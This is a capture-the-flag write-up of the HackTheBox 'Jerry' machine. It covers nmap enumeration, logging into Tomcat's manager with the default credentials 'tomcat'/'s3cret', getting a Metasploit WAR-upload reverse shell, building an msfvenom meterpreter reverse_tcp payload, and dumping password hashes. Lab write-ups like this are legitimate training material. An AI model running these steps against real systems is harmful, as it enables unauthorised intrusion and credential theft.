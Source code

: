 ```yaml
---
title: "HackTheBox - Jerry"
author: Nasrallah
description: ""
date: 2022-08-03 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, tomcat, metasploit,]
img_path: /assets/img/hackthebox/machines/jerry
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Jerry](https://app.hackthebox.com/machines/Jerry) from [HackTheBox](https://www.hackthebox.com). It's running Apache Tomcat with default credentials, allowing us to upload files and get access to the machine.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
```

We found an Apache webserver running on port 8080.

### Web

Let's see what's on the webserver.

![](1.png)

It's Tomcat welcome page. Going to **/manager** page we get prompt for a username and a password, trying random credentials we get Access Denied page that reveals the default credentials.

![](2.png)


## **Foothold**

To get initial access to the target, we can use the metasploit module **exploit/multi/http/tomcat_mgr_upload** that would upload a **.war** to the server, start a listener and then execute the file to get a reverse shell. 

![](3.png)

We need to set the required options.

```bash
set rhosts {target_IP}

set rport 8080

set httpusername tomcat

set httppassword s3cret

set lhost tun0
```

And we run the exploit by typing `exploit`.

![](4.png)

We got in to the target as user `Jerry`.

## **Shell upgrade**

User Jerry is an Administrator in this machine so no need for privilege escalation, But meterpreter commands like hashdump won't work.

![](5.png)

Let's generate a exe reverse shell file to be executed on the target with `msfvenom`

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f exe -o shell.exe
```

>Change LHOST value to your tun0 IP.

Now we need to upload it to the target using the upload feature in meterpreter.

Next is to setup a multi handler listener on metasploit, first, background the current session with the command `background`.

Next is to use a the multi handler with correct options set and run in in the background with the command `run -j`.

![](6.png)

Now go back to the first session with the command `sessions 1`, run the command `shell` to get a cmd shell, go to where you uploaded the shell.exe file and run it.

![](7.png)

We see that another session got opened.

Now exit the current shell, then background the meterpreter session, and run `sessions 2` to move to the newly opened session.

We can dump the hashes now without any problems.

![](8.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
